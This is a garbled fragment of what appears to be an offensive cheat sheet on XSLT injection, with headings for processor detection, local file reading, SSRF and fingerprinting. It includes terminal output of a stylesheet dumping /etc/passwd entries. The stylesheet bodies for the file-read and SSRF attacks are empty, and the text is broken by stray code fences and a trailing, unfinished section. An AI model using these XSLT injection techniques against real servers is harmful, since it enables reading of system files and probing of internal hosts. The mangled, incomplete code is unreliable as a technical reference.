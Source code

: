 ```
</xsl:template>
</xsl:stylesheet>
```
```
And execute

```xml
$saxonb-xslt -xsl:detection.xsl xml.xml

Warning: at xsl:stylesheet on line 2 column 80 of detection.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
XSLT identification
-------------------

**Version:**2.0<br>**Vendor:**SAXON 9.1.0.8 from Saxonica<br>**Vendor URL:**http://www.saxonica.com/<br>
```
```
### Read Local File

```xml:read.xsl
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">
<xsl:template match="/">

</xsl:template>
</xsl:stylesheet>
```
```
```xml
$ saxonb-xslt -xsl:read.xsl xml.xml

Warning: at xsl:stylesheet on line 1 column 111 of read.xsl:
  Running an XSLT 1.0 stylesheet with an XSLT 2.0 processor
<?xml version="1.0" encoding="UTF-8"?>root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
```
```
### SSRF

```xml
<xsl:stylesheet xmlns:xsl="http://www.w3.org/1999/XSL/Transform" xmlns:abc="http://php.net/xsl" version="1.0">

<xsl:template match="/">
</xsl:template>
</xsl:stylesheet>
```
```
### Versions

There might be more or less functions depending on the XSLT version used:

- [[https://www.w3.org/TR/xslt-10/|https://www.w3.org/TR/xslt-10/]]
- [[https://www.w3.org/TR/xslt20/|https://www.w3.org/TR/xslt20/]]
- [[https://www.w3.org/TR/xslt-30/|https://www.w3.org/TR/xslt-30/]]

## Fingerprint

Upload this and take information
```